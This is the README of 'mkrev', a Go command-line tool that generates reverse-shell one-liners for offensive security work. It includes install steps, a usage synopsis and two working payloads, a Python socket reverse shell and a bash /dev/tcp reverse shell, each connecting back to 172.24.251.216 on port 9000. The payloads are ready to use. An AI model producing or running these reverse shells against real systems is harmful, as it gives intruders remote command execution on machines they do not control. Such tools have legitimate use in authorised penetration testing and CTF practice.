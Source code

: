 # Mkrev

A lazy tool to generate reverse shell in quick and shorter way than browsing a cheatsheet!

## Installation

```
$ git clone https://github.com/fahmifj/mkrev.git
$ cd mkrev
$ go build -o mkrev main.go
```

For easy call, put the binary (mkrev) on your $HOME/bin then add new path `$ export $PATH=$HOME/bin:$PATH`.

## Usage and examples

Usage is simple where some shell options are using shorter name.
- `py` for python
- `nc` for netcat
- `ps` for powershell
- `pl` for perl
- `rb` for ruby

```
$ mkrev
Usage:
        mkrev [interface] [port] [shell]
        mkrev tun0 9000 py
Shell:
        py, bash, nc, php, ps, pl, rb
```

1. Generate python reverse shell

```
$ mkrev eth0 9000 py
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("172.24.251.216",9000));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```
2. Generate bash reverse shell
```
$ mkrev eth0 9000 bash
bash -c "bash -i >& /dev/tcp/172.24.251.216/9000 0>&1
```